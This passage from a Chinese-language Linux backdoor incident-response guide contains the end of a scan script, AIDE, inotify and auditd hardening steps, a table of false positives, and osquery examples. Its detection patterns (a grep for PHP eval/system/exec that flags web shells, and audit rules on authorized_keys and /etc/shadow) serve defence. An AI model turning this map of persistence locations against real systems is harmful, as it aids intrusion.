    [ -n "$cron" ] && echo "    [$user] $cron"
done
echo "  /etc/cron.d/ 文件:"
ls -la /etc/cron.d/ 2>/dev/null | tail -n +2

# --- 启动脚本检查 ---
echo ""
echo ">>> [4/7] 启动脚本后门检查"
echo "  /etc/rc.local 内容:"
cat /etc/rc.local 2>/dev/null | grep -v "^#" | grep -v "^$" | sed 's/^/    /'
echo "  非标准 systemd 服务:"
find /etc/systemd/system/ -name "*.service" -type f 2>/dev/null | while read -r f; do
    echo "    $f ($(stat -c '%y' "$f"))"
done

# --- Web Shell 检查 ---
echo ""
echo ">>> [5/7] Web Shell 检查"
for webroot in /var/www /srv/www /opt/lampp/htdocs; do
    [ -d "$webroot" ] || continue
    echo "  扫描 $webroot ..."
    recent=$(find "$webroot" -type f \( -name "*.php" -o -name "*.jsp" \) -mtime -30 2>/dev/null | wc -l)
    echo "    最近30天修改的Web文件: $recent 个"
    eval_count=$(grep -rlE "(eval\s*\(|system\s*\(|exec\s*\(|passthru\s*\()" "$webroot" --include="*.php" 2>/dev/null | wc -l)
    echo "    包含高危函数的PHP文件: $eval_count 个"
done

# --- LD_PRELOAD 检查 ---
echo ""
echo ">>> [6/7] LD_PRELOAD 后门检查"
echo "  /etc/ld.so.preload:"
content=$(cat /etc/ld.so.preload 2>/dev/null)
[ -z "$content" ] && echo "    (空 - 正常)" || echo "    [!] 内容: $content"
echo "  LD_PRELOAD 环境变量:"
val=$(env | grep LD_PRELOAD)
[ -z "$val" ] && echo "    (未设置 - 正常)" || echo "    [!] $val"

# --- 网络连接检查 ---
echo ""
echo ">>> [7/7] 网络连接检查"
echo "  监听端口:"
ss -tunlp 2>/dev/null | grep LISTEN | awk '{print "    " $5 " " $6}' | sort

echo ""
echo "========================================"
echo " 扫描完成。请人工复查标记为 [!] 的项目。"
echo " 报告保存在: $REPORT_DIR"
echo "========================================"
```

---

### 3.9 事后加固与持续监控

清除后门只是应急响应的一个环节，事后加固同样重要：

#### 3.9.1 建立文件完整性基线

```bash
# 使用 AIDE 建立文件完整性基线
apt install aide 2>/dev/null
aide --init
mv /var/lib/aide/aide.db.new /var/lib/aide/aide.db

# 配置定时检查
echo '0 3 * * * root /usr/bin/aide --check | mail -s "AIDE Report" admin@example.com' \
    >> /etc/crontab
```

#### 3.9.2 部署实时监控

```bash
# 使用 inotifywait 监控关键文件变更
apt install inotify-tools
inotifywait -m -r -e modify,create,delete,move \
    /etc/ssh/ /etc/pam.d/ /etc/systemd/system/ /etc/cron.d/ \
    --format '%T %w%f %e' --timefmt '%Y-%m-%d %H:%M:%S' \
    >> /var/log/file_monitor.log 2>&1 &
```

#### 3.9.3 配置审计日志

```bash
# 使用 auditd 监控关键系统调用
cat >> /etc/audit/rules.d/backdoor-monitor.rules << 'EOF'
# 监控 SSH 密钥文件变更
-w /root/.ssh/authorized_keys -p wa -k ssh_key_change
-w /home/ -p wa -k home_dir_change

# 监控用户认证文件变更
-w /etc/passwd -p wa -k passwd_change
-w /etc/shadow -p wa -k shadow_change
-w /etc/group -p wa -k group_change

# 监控 PAM 配置变更
-w /etc/pam.d/ -p wa -k pam_change

# 监控 systemd 服务文件变更
-w /etc/systemd/system/ -p wa -k systemd_change

# 监控 crontab 变更
-w /etc/crontab -p wa -k cron_change
-w /etc/cron.d/ -p wa -k cron_change
-w /var/spool/cron/ -p wa -k cron_change

# 监控内核模块加载
-a always,exit -F arch=b64 -S init_module,finit_module -k kernel_module
EOF

service auditd restart
# 查看审计日志
ausearch -k ssh_key_change -ts recent
```

---

### 3.10 常见误判与注意事项

在后门检测过程中，以下情况容易导致误判：

| 误判场景 | 表现 | 正确做法 |
|---------|------|---------|
| 正常运维工具被误报 | Ansible/Puppet 部署的 authorized_keys | 与运维团队确认配置管理工具的使用 |
| 系统默认配置被标记 | CentOS 的 /etc/cron.d/ 下有 0hourly 等默认文件 | 与基线对比而非凭记忆判断 |
| 监控 Agent 被误报 | Zabbix/Prometheus Agent 的系统调用看起来像后门 | 排除已知 Agent 的进程和网络连接 |
| 包管理器的合法脚本 | dpkg/rpm 安装的 postinst 脚本 | 使用包管理器验证完整性 |
| 容器环境中的误报 | Docker 容器的 PID 1 和挂载看起来异常 | 明确区分宿主机与容器的检查范围 |

**关键原则：** 任何检测结果都必须结合上下文判断。一个空的 `/etc/ld.so.preload` 不代表没有后门，一个非空的也不一定就是后门——关键是确认其中的库文件是否合法。当你无法确定某个发现是否为后门时，正确的做法是：**隔离取证、保留现场、请求专业支持**，而不是盲目删除。

---

### 3.11 进阶：自动化与编排

对于需要频繁进行后门排查的环境，建议将上述检查流程编排为自动化工具：

| 工具 | 说明 | 适用场景 |
|------|------|---------|
| [Lynis](https://cisofy.com/lynis/) | 开源安全审计工具，覆盖 CIS 基准 | 系统全面安全评估 |
| [osquery](https://osquery.io/) | 用 SQL 查询系统状态 | 大规模主机排查与持续监控 |
| [GRR](https://github.com/google/grr) | Google 开源的远程取证框架 | 企业级应急响应 |
| [YARA](https://virustotal.github.io/yara/) | 模式匹配引擎 | 自定义恶意软件签名检测 |
| [TheHive](https://thehive-project.org/) | 安全事件响应平台 | 团队协作式应急响应 |

```bash
# osquery 示例：查询所有 authorized_keys 文件
osqueryi "SELECT path, uid, gid, size, mtime FROM file WHERE path LIKE '%authorized_keys%';"

# osquery 示例：查找 UID=0 的用户
osqueryi "SELECT username, uid, shell FROM users WHERE uid = 0;"

# osquery 示例：检查 LD_PRELOAD
osqueryi "SELECT * FROM file WHERE path = '/etc/ld.so.preload';"
```
